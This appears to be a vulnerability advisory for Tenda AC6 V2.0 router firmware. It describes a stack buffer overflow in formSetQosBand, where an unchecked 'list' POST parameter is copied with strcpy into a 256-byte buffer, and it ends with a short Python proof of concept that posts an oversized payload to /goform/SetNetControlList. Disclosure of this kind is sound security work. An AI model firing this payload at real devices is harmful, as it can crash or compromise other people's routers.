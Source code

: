 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetQosBand"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the `formSetQosBand` function, a **stack buffer overflow** occurs. This happens when a user crafts a POST request with an unvalidated **`list`** parameter. This `list` parameter is then passed to the `setQosMiblist` function, where it's copied into the `qos_str` buffer (which has a size of `256` bytes) using `strcpy(qos_str, p);`. Since **no validation** is performed on the input `list`'s length, providing a string longer than 255 characters will lead to an overflow of `qos_str`.

![image-20250617000950271](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250617000950271.png)

![image-20250617001017897](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250617001017897.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'list':payload}
    cookie={'password':'gfytgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500+b'\n'
url="http://192.168.1.1/goform/SetNetControlList"
send_payload(url, payload)   
```

![image-20250617000731965](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250617000731965.png)



